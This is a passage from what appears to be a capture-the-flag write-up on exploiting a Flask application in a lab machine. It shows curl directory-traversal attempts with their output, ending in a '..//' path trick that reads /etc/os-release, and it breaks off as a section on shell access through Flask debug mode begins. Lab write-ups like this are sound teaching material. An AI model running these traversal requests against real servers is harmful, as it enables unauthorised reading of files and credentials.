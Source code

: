 #### Directory Traversal

Knowing this, I might think I can do something like
`curl --path-as-is http://10.10.11.164/uploads//app/run.py`, but it
doesn't work:



    oxdf@hacky$ curl --path-as-is http://10.10.11.164/uploads//app/run.py
    <!doctype.md>
    .md lang=en>
    <title>Redirecting...</title>
    <h1>Redirecting...</h1>
    <p>You should be redirected automatically to the target URL: <a href="http://10.10.11.164/uploads/app/run.py">http://10.10.11.164/uploads/app/run.py</a>. If not, click the link.



Before the request gets to Flask to process, a redirect to a
"normalized" URL is being sent, which breaks my exploit. This isn't
specific to the exploit attempt. For example, just reading the legit
uploaded file with an extra `/` does that same thing:



    oxdf@hacky$ curl --path-as-is http://10.10.11.164/uploads//htb.png
    <!doctype.md>
    .md lang=en>
    <title>Redirecting...</title>
    <h1>Redirecting...</h1>
    <p>You should be redirected automatically to the target URL: <a href="http://10.10.11.164/uploads/htb.png">http://10.10.11.164/uploads/htb.png</a>. If not, click the link.



I noted above that URLs with `../` did make it to Flask, where they were
cleaned out. I can't quite explain why `//` isn't allowed through, but
`..//` is, but it is. I'll combine these two to get a working file read
anywhere on the system:



    oxdf@hacky$ curl --path-as-is http://10.10.11.164/uploads/..//etc/os-release
    NAME="Alpine Linux"
    ID=alpine
    VERSION_ID=3.15.1
    PRETTY_NAME="Alpine Linux v3.15"
    HOME_URL="https://alpinelinux.org/"
    BUG_REPORT_URL="https://bugs.alpinelinux.org/"



### Shell via Flask Debug \[Unintended\]

#### Access Debug

I noted above that in the git branch that lines up with this instance,
`FLASK_DEBUG` was set to 1, which enables it. In fact, I saw the debug
output come back when I put in an invalid path just above. It's clearer
in Firefox:
